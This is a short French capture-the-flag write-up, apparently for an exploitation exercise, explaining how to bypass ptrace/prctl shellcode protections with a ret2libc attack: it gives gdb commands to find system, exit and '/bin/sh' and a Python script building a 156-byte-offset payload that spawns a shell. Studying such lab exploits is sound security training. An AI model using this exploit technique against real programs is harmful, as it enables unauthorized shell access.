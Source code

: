 Dans cet exercice on voit un code qui se protège contre les shellcode grâce à ptrace et prctl nous allons devoir bypasser ces protections 

Pour ce faire il va falloir trouver un moyen d'avoir un shell sans execve
set follow-fork-mode child

156 d'offset on peut faire un ret2libc comme on a pu le faire auparavant

find &system,+9999999,/bin/sh
p system
p exit

# -*- coding: utf-8 -*-
import struct

sys_addr = struct.pack("I",0xf7e6aed0)
bin_sh = struct.pack("I", 0xf7f897ec)
exit_addr = struct.pack("I", 0xf7e5eb70)
payload = "A" * 156 + sys_addr + exit_addr + bin_sh  
print(payload)

